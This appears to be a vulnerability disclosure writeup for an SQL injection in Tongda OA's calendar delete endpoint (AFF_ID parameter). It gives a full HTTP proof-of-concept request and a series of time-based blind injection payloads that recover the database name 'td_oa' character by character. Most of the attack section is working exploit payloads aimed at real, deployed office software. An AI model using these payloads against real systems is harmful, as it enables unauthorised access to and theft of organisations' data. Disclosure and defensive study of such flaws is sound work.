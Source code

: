 SQL injection vulnerability exists in Tongda OA

version:v2017 version and versions below v11.10

route:/general/calendar/affair/delete.php

There is an injected parameter: $AFF_ID

The code here is very concise. When $AFF_ID is not empty, the parameters are directly spliced ​​into the SQL statement. Since the parentheses are closed here, there is a bypass.

![image](https://github.com/cqliuke/cve/assets/123135436/ecef143e-a3b1-4947-b30b-39282afd0f58)
POC
```
GET /general/calendar/affair/delete.php?AFF_ID=1)%20and%20(substr(DATABASE(),1,1))=char(116)%20and%20(select%20count(*)%20from%20information_schema.columns%20A,information_schema.columns%20B)%20and(1)=(1 HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/113.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Cookie: USER_NAME_COOKIE=admin; SID_1=7d65bff3; OA_USER_ID=admin; PHPSESSID=ufv7doqhvbv7qsjjqlot2bv420
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
```
2.Payload
We can use Cartesian product blind injection for injection. The following payload can determine that the first character of the database name is t, because it was successfully delayed at 116. The ASCII code 116 also corresponds to the lowercase letter t. By analogy, the database name and any information about the database can be obtained through blind injection.

```
1)%20and%20(substr(DATABASE(),1,1))=char(116)%20and%20(select%20count(*)%20from%20information_schema.columns%20A,information_schema.columns%20B)%20and(1)=(1
```
![image](https://github.com/cqliuke/cve/assets/123135436/ea8f2557-0517-4d64-abfd-c21403130241)

Intercept the second digit of the database through blind injection, and determine the second digit as the letter d through the delay time

```
1)%20and%20(substr(DATABASE(),2,1))=char(100)%20and%20(select%20count(*)%20from%20information_schema.columns%20A,information_schema.columns%20B)%20and(1)=(1
```
![image](https://github.com/cqliuke/cve/assets/123135436/8eab89d6-ca72-4766-bb7d-a4c2a0d7f110)

The third digit is the character _

```
1)%20and%20(substr(DATABASE(),3,1))=char(95)%20and%20(select%20count(*)%20from%20information_schema.columns%20A,information_schema.columns%20B)%20and(1)=(1
```

![image](https://github.com/cqliuke/cve/assets/123135436/cd6abe0e-e25b-4435-a8bb-c1c8103dc1b2)

The fourth digit is the character o

```
1)%20and%20(substr(DATABASE(),4,1))=char(111)%20and%20(select%20count(*)%20from%20information_schema.columns%20A,information_schema.columns%20B)%20and(1)=(1
```
![image](https://github.com/cqliuke/cve/assets/123135436/d2c76053-adfe-46b5-8e06-e47ed3820675)

The fifth digit is the character a

```
1)%20and%20(substr(DATABASE(),5,1))=char(97)%20and%20(select%20count(*)%20from%20information_schema.columns%20A,information_schema.columns%20B)%20and(1)=(1
```
![image](https://github.com/cqliuke/cve/assets/123135436/fb23e2f2-9e0a-4d60-a19e-0e28770ac5ab)

Then through blind injection, you can determine that the database name is: td_oa




